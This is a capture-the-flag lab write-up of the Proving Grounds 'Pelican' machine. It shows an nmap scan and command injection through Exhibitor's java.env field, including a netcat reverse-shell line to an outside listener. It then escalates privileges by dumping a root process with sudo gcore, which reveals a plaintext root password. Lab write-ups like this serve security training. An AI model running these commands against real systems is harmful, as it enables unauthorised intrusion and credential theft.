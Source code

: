 ```yaml
---
layout: default
title: Pelican
parent: Proving Grounds Practice - Linux
nav_order: 7
---
```


# Scanning

---

```bash
                                                                                                 [17/17]
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/pelican]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.232.98
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-25 00:01 EST
Nmap scan report for 192.168.232.98
Host is up (0.054s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open              Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
| http-methods:
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.232.98:8080/exhibitor/v1/ui/index.html
44091/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Enumeration/Exploitation

---

## 8081 | HTTP

There is a vulnerability for Exhibitor for Zookeeper v1.0 that allows us to inject a reverse shell payload in the _java.env script_ secion of the Config menu.

```bash
Under the Config tab in the Exhibitor Web UI, the <E2><80><9C>java.env script<E2><80><9D> field can be modified and the new configuration pushed to ZooKeeper. Exhibitor launches ZooKeeper through a script, and the contents of this field are passed, unmodified, as arguments to the Java command to launch ZooKeeper, which can be seen here.

(The contents of the <E2><80><9C>java.env script<E2><80><9D> field are passed in as $JVMFLAGS.)

Based on how this argument is passed, there are several ways to execute arbitrary commands. The methods tested were surrounding the command with backticks and using $(), for example:

$(/bin/nc -e /bin/sh 10.0.0.64 4444 &)

This example uses netcat to open a reverse shell to a listener on 10.0.0.64:4444.

```

![config](../../../assets/images/ctfs/proving_grounds/pelican/config.png)

After clicking the _commit_ button we get a reverse shell...

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/pelican]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.98] 47460
id
uid=1000(charles) gid=1000(charles) groups=1000(charles)


```

# Post-Exploitation

---

## Check Sudo Permissions for Charles

```bash
charles@pelican:/opt/zookeeper/conf$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

```

Checking GTFOBins for _gcore_ with Sudo

![gcore](../../../assets/images/ctfs/proving_grounds/pelican/gcore.png)

We can run _gcore_ with a process ID that is running as root

Checking processes...

```bash
charles@pelican:/opt/zookeeper/conf$ ps -aux | grep -i 'root'

root       493  0.0  0.0   2276    72 ?        Ss   00:37   0:00 /usr/bin/password-store

# Run gcore against PID 493
charles@pelican:/opt/zookeeper/conf$ sudo /usr/bin/gcore 493
sudo /usr/bin/gcore 493
0x00007f40ff4dd6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffc48e50c90, remaining=re
maining@entry=0x7ffc48e50c90) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.493

# Run strings against the output file
charles@pelican:/opt/zookeeper/conf$ strings core.493
/usr/bin/passwor
////////////////
/usr/bin/passwor
////////////////
001 Password: root:
ClogKingpinInning731

```

We can use the password _ClogKingpinInning731_ to elevate to root privileges.

```bash
charles@pelican:/opt/zookeeper/conf$ su root
su root
Password: ClogKingpinInning731

root@pelican:/opt/zookeeper/conf# id
id
uid=0(root) gid=0(root) groups=0(root)
root@pelican:/opt/zookeeper/conf# whoami
whoami
root
```
